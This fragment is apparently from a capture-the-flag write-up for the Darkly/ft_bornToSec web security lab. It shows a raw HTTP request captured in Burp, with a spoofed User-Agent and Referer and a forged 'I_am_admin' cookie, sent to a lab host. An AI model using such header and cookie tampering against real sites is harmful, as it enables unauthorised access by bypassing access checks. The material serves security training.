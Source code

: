 burp ==> 
GET /?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f HTTP/1.1
Host: 104.238.21.89:3131
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: ft_bornToSec
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://www.nsa.gov/
Accept-Encoding: gzip, deflate, br
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive